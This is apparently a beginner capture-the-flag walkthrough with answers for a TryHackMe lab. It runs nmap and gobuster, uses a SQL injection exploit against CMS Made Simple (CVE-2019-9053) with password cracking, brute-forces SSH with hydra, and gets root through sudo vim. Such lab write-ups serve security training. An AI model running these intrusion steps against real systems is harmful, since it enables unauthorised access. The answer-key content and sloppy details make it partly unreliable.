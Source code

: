 # Tryhackme easyctf

***https://tryhackme.com/room/easyctf***

Beginner level ctf


## [Task 1] Simple CTF 


### 1 :	How many services are running under port 1000?

**2**

**nmap -sC -sV 10.10.10.47**


### 2 : What is running on the higher port? 

**ssh**


### 3 : What's the CVE you're using against the application? 

lets do a gobuster on our machine ip

we get a directory **simple** nothins else is interesting

so we can run gobuster again on **<ip address>/simple/**

now we get a login panel 

we can search for **cms made simple** on searchsploit

now we get the cve 

**CVE-2019-9053**


### 4 : To what kind of vulnerability is the application vulnerable?

**sqli**


### 5 : What's the password?

we can run the exploit

**python 46635.py -u http://10.10.10.47/simple --crack -w /usr/share/wordlists/rockyou.txt**

we get the password for mitch

**secret**

also i got the same password by bruteforcing ssh 

now we can check port 22 ftp

ftp <ip address>

we get a text file in pub directory

```
Dammit man... you'te the worst dev i've seen. You set the same pass for the system user, and the password is so weak... i cracked it in seconds. Gosh... what a mess!
```

mow we know that mitch's password is weak so we can we can try to bruteforce ssh on 2222

**hydra -l mitch -P /usr/share/wordlists/rockyou.txt ssh://10.10.10.47:2222**

now we get the same  password we can login as mitch


### 6 : What's the user flag?

**/bin/bash**

we have the user.txt now


### 7 : Is there any other user in the home directory? What's its name?

**sunbath**

### 8 : What can you leverage to spawn a privileged shell?

**sudo -l**

**vim**

### 9 : What's the root flag?

**sudo vim**

**:!/bin/bash**


now we are root  
